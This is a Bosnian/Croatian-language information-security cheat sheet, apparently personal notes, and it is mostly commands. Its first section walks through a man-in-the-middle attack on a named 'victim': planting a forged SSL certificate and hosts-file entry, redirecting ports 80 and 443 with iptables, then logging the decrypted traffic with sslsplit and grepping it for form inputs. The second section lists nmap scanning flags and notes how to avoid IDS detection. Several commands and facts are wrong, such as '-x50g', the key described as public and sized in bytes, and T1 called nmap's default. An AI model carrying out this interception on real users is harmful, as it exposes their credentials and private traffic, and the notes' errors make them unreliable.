 <h1>Informacijska sigurnost cheat sheet</h1>

<h2>Man in the middle attack </h2>

<p>Svrha ovog pristupa jeste da se kreira doslovno nova putanja (flow) izmedju TCP zahtjeva sa racunara zrtve.
Postupak:</p>

Kreiramo folder:

``mkdir ime_foldera``

Udjemo u kreirani folder:

​	``cd ime_foldera``

Kreiramo RSA javni kljuc

​	``openssl genrsa -out ime_kljuca.key 4096 (4096 je velicina u bytes od kljuca)	``

Kreiramo SSL certifikat sa nasim javnim kljucem (prethodno kreiranim)

​	``openssl req -x50g -days 365 -key ime_kljuca.key -out ime_certifikata.crt``

Na neki nacin je potrebno da u web browser racunara nase zrtve importujemo kreirani SSL certifikatPotrebno je da u hosts file racunara zrtve dodamo nasu IP adresu i web domenu 

Putanja za Windows:

​	``C:\windows\system32\drivers\etc\hosts.file``

Forwarding, odnosno preusmjeravanja svih TCP zahtjeva sa porta 80 kao i sa porta 443 na nas racunar
Postavimo ipv4 forwarding na **true** aka 1:

​	``sudo sysctl net.ipv4.ip_forward=1``

Kreiramo net subsistem te isti ocistimo **sa -F** za flush:

​	``sudo iptables -t nat -F``

​	``sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT –toports     8080``

​	``sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT –toports     8443``

***nat je network address transition (prebacuje zahtjeve sa jedne IP adrese na drugu)**

Poslije izvrsavanja donje komande udjemo u debug mode i mozemo sve zahtjeve sa racunara zrtve da preusmjerimo i logujemo u nas log file:

​	``sudo sslsplit -D -l connections.log -j /tmap/ -s logdir/ -k ime_kljuca.key -c ime_certifikata ssl 0.0.0.0 8443 ime_stranice``

Nakon ovoga, potrebno je da udjemo u nas folder sa **cd ime_foldera**Nakon toga sa **cat** komandom procitamo nas log fajlTe nakon toga sa **grep** komandom pretrazujemo sta nas zanima, npr. ime nekog html input polja ili slicno



<h2>NMAP komanda</h2>

<p>Network mapper komanda nam koristi kako bi smo spoznali vise informacija o IP adresi, verzijama OS na njima, otvorenim portovima i njihovim stanjima kao i razne druge informacije. **Po default-u, skenira se prvih 1000 portova, izlaze se njihovo stanje koje moze biti open,closed,filtered,** te kombinacija nekih od ova tri. Prvo se provjerava da li je host (meta koju skeniramo) uopste aktivna (up). Ukoliko nije, nista od daljnjeg skeniranja nije izvrseno. Takodjer, nad skeniranim portovima mozemo vidjeti koji do protokola se izvrsava na njima. Pored jedne domene ili IP adrese, mozemo skenirati i neki range IP adresa</p>



``nmap ime_domene`` - Ova komanda izvrsi skeniranje u **default** mode.

``sudo nmap -sV ime_domene`` - Ova komanda nam pored default ponasanja ponudi i verziju na kojoj se nalazi port.

``nmap -A ime_domene`` - Ova komanda nam pored default ponasanja nudi i  nekih vise informacija poput kljuceva na portovima i slicno.

``nmap -sP ime_domene`` - Ova komanda nam nudi portove ali samo one na kojima je **host up**.

``nmap -PS ime_domene`` - Ova komanda nam dodatno nudi manipulaciju stanja 3-way  handshake-a. Konkretno ovdje ga **izvrsimo bez ACK polja**.

``curl -vvv ime_domene`` - Ova komanda nam **salje 1 GET** zahtjev te da povratne informacije.

``nmap --system-dns ime_domene`` - Ova komanda nam govori koji DNS sistem da koristimo.

``nmap -n ime_domene`` - Preskocimo DNS 

``nmap -Pn ime_domene`` - Ova komanda **podrazumijeva** **da je host up**, stoga odmah prelazi na skeniranje portova.

``nmap -sT ime_domene`` - Izvrsava kompletan 3-way handshake.

``nmap -p broj_porta ime_domene`` - Skenira samo odredjeni port.

``nmap -F ime_domene`` - Skenira samo prvih 100 najpopularnijih portova.

``nmap --top-ports broj_portova ime_domene`` - Omoguci skeniranje odredjenog broja najpopularnijih portova.

``sudo nmap -sU ime_domene`` - Skenira po UDP protokolu za razliku od default skeniranja po TCP protokolu.

``sudo nmap -O ime_domene`` - Dodatno nam kaze OS na serveru.



Takodjer mozemo **koristiti flagove -T5,4,3,2,1 gdje je T1 default nacin skeniranja**, najsporiji je te jako je mala sansa da cemo biti otkriveni od IDP, IDS ili firewall-a. **Sto je broj veci, skeniranje je radjeno agresivnije te je samim time veca mogucnost da budemo otkriveni sa strane mete.**



Znacenja razlicitih stanja portova:

1. Open - Aktivan servis koji odgovara na zahtjeve 
2. Closed - Ne koristeni portovi
3. Filtered- Aktivan servis koji slusa i odgovara medjutim ima neku vrstu IDP-a (intrusion detection protection) ili firewall-a na sebi





